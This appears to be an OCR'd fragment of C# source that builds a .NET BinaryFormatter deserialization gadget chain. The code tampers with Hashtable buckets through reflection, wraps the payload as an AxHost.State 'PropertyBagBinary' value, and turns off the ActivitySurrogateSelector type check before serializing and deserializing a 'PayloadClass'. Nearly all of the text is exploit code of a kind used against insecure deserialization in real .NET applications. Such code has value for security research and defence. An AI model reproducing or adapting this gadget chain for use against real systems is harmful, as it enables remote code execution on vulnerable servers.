 ```plain
            FieldInfo fi_keys = ht.GetType().GetField("buckets", BindingFlags.NonPublic | BindingFlags.Instance);
            Array keys = (Array)fi_keys.GetValue(ht);  //buckets
            FieldInfo fi_key = keys.GetType().GetElementType().GetField("key", BindingFlags.Public | BindingFlags.Instance);
            for (int i = 0; i < keys.Length; ++i)
            {
                object bucket = keys.GetValue(i);
                object key = fi_key.GetValue(bucket);
                if (key is string)
                {
                    fi_key.SetValue(bucket, verb);
                    keys.SetValue(bucket, i);
                    break;
                }
            }

            fi_keys.SetValue(ht, keys);

            ls.Add(ht);

            BinaryFormatter fmt1 = new BinaryFormatter();
            MemoryStream stm = new MemoryStream();
            fmt1.SurrogateSelector = new MySurrogateSelector();
            fmt1.Serialize(stm, ls);
            //info.AddValue("DataSet.Tables_0", stm.ToArray());
            /*
            BinaryFormatter fmt2 = new BinaryFormatter();
            stm.Seek(0, SeekOrigin.Begin);
            fmt2.Deserialize(stm);
            */
            return stm.ToArray();
        }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            System.Diagnostics.Trace.WriteLine("In GetObjectData");
            info.SetType(typeof(System.Windows.Forms.AxHost.State));
            info.AddValue("PropertyBagBinary", GadgetChains());
        }
    }



    class Program
    {

        static void Main(string[] args)
        {
            System.Configuration.ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");
            BinaryFormatter fmt1 = new BinaryFormatter();
            BinaryFormatter fmt2 = new BinaryFormatter();
            MemoryStream stm = new MemoryStream();
            PayloadClass test = new PayloadClass();
            fmt1.SurrogateSelector = new MySurrogateSelector();
            fmt1.Serialize(stm, test);
            stm.Seek(0, SeekOrigin.Begin);
            fmt2.Deserialize(stm);
        }
    }
}
```